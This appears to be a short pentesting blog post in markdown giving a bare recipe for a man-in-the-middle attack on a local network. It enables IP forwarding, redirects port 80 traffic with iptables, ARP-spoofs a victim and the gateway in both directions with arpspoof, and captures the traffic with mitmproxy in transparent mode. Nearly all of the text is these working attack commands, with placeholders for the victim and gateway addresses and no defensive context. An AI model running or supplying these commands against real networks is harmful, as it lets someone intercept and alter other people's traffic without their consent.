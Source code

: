 ```yaml
---
layout: post
title: "Intercept HTTP Traffic with Mitmproxy and Arpspoof on Kali Linux"
tags: [mitmproxy, arp, kali, linux, network, pentesting]
---
```


1. Enable IP forwarding & port redirection
```bash
sysctl -w net.ipv4.ip_forward=1
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
```

2. Use `tmux` to run 2 instances of `arpspoof`:
```bash
arpspoof -i <$INTERFACE> -t <$VICTIM_IP> <$GATEWAY_IP>
```
```bash
arpspoof -i <$INTERFACE> -t <$GATEWAY_IP> <$VICTIM_IP>
```

3. Run `mitmproxy` in transparent mode:
```bash
mitmproxy -T --host
```

---
1. [http://jeffq.com/blog/setting-up-a-man-in-the-middle-device-with-raspberry-pi-part-1/](http://jeffq.com/blog/setting-up-a-man-in-the-middle-device-with-raspberry-pi-part-1/)
